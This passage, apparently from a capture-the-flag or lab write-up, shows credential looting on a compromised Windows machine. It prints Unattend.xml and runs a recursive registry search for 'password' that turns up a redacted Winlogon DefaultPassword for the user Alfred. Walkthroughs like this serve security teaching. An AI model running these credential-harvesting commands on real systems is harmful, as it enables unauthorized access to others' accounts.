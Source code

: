 That's a LOT! We could dig deeper into KEs later.

***Looting for passwords:***

**`Unattend.xml`:**
```shell
C:\Windows\system32>type C:\Windows\Panther\Unattend.xml
type C:\Windows\Panther\Unattend.xml
<?xml version='1.0' encoding='utf-8'?>
<unattend xmlns="urn:schemas-microsoft-com:unattend" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State">
  [...]
   <component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="x86">
    <AutoLogon>
     <Password>*SENSITIVE*DATA*DELETED*</Password>
     <Enabled>true</Enabled> 
     <Username>Alfred</Username> 
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Alfred</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
  [...]
</unattend>
```

No password in `Unattend.xml`.

**Registry keys:**
```shell
C:\Windows\system32>reg query HKLM /f password /t REG_SZ /s
[...]
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    {Redacted}
C:\Windows\system32>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
[...] 
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    {Redacted}
[...]
```

Nice!!! We found `Alfred`'s password in `Winlogon`'s HKLM registry key!

Now, let's take a step back.
